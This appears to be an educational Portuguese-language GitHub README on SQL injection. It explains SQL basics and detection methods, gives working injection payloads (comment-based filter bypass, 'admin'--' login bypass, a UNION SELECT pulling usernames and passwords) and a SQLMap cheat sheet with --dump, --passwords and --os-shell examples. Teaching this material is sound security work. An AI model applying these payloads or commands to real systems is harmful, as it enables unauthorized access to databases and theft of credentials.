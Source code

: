 # SQLinjection

Esse README apresenta ideias centrais sobre SQLinjection. Para um estudo mais aprofundado utilize os links abaixo:

➡️ [Fonte principal](https://portswigger.net/web-security/sql-injection#subverting-application-logic)  
➡️ [PDF da Aula](./pdf/sql_injection.pdf) desenvolvido por [@GJSegatto](https://github.com/GJSegatto)

---

## 📌 O que é SQL?

**SQL (Structured Query Language)** é a linguagem padrão para **gerenciar e manipular** dados em **bancos de dados relacionais**, como MySQL e PostgresSQL.  
Permite realizar operações **CRUD** (*Create, Read, Update, Delete*).

**Exemplos de consultas:**
```sql
SELECT nome, idade FROM clientes WHERE cidade = 'Araranguá';
INSERT INTO clientes (nome, idade) VALUES ('Hacker da Silva', 30);
DELETE FROM clientes WHERE nome = 'Hacker Santos';
```

## ⚠️ O que é SQL Injection?

SQL Injection (SQLi) é uma vulnerabilidade que ocorre quando entradas fornecidas por usuários não são tratadas e acabam interferindo diretamente nas consultas SQL da aplicação.

Possíveis impactos:

- Acesso a dados sensíveis
- Alteração ou exclusão de registros
- Ataques de negação de serviço (DoS)
- Comprometimento de servidores

## 🔍 Como detectar vulnerabilidades

- Inserção de aspas simples (') em campos de input
- Uso de condições booleanas ('1'='1' OR '1'='2')
- Payloads que induzem atrasos
- Ferramentas como [SQLMap](#️-sqlmap)


## 🛠️ Tipos e exemplos de SQL Injection

### 1. Recuperação de dados ocultos
```sql
-- Consulta original
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;

-- Injeção
"Gifts'--"

-- Resultado
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1;
```

### 2. Quebra da lógica de autenticação

```sql
-- Consulta original
SELECT * FROM users WHERE username = 'hacker' AND password = 'senhasegura';

-- Injeção
"admin'--"

-- Resultado
SELECT * FROM users WHERE username = 'admin'--' AND password = '';
```

### 3. Recuperar dados de outra tabela

```sql
-- Consulta original
SELECT name, description FROM products WHERE category = 'Gifts';

-- Injeção com UNION
' UNION SELECT username, password FROM users--
```

## 🖥️ SQLMap

SQLMap é uma ferramenta automatizada para exploração de SQLi que:

- Detecta múltiplos tipos de injeção
- Suporta diversos Sistemas Gerenciadores de Bancos de Dados (SGBDs)
- Enumera bancos, tabelas e colunas
- Extrai dados e abre shells no sistema

➡️ [Documentação Oficial](https://www.kali.org/tools/sqlmap/)

### 🔧 Principais flags

#### Básicas
```bash
-v                  # Verbosidade (0-6)
-u --url            # URL alvo
--data=DATA         # Dados via POST
-p                  # Parâmetros a testar
```

#### Enumeração

```bash
-a --all            # Recupera tudo
--dbs               # Lista bancos
--tables            # Lista tabelas
--columns           # Lista colunas
-D [DB]             # Banco específico
-T [TABLE]          # Tabela específica
-C [COLUMN]         # Coluna específica
--dump              # Extrai dados da tabela
```

#### Avançadas

```bash
--passwords         # Hashes de senha do DBMS
--os-shell          # Shell no sistema
--batch             # Usa valores padrão
--wizard            # Interface assistida
```

### 📌 Exemplos de Uso

```bash
sqlmap -u "http://site.com/pagina?id=1" -p id
sqlmap -u "http://site.com/pagina?id=1" --dbs
sqlmap -u "http://site.com/pagina?id=1" -D banco -T tabela --dump
sqlmap -u "http://site.com/login" --data="user=admin&pass=admin"
```